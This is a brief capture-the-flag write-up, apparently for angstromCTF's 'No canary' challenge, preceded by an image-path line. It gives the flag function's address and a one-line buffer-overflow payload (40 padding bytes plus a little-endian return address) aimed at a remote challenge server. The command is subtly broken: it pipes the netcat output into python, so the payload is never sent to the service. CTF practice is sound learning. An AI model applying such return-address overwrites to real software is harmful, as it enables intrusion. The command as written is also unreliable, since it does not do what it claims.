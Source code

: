 # No canary

Use r2 to find address of flag function, `0x00401186`  
Find buffer length needed.  
```
nc shell.actf.co 20700 | python -c 'print("A"*40+"\x86\x11\x40\x00\x00\x00\x00\x00")' 
```
